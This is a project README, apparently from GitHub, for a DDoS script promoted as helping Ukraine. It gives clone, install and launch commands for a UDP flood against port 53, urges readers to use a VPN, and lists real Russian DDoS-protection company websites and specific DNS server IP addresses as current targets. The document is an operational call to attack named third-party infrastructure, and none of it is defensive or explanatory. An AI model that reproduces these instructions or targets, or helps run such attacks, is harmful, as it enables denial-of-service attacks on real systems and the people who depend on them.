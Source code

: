 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

**If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```







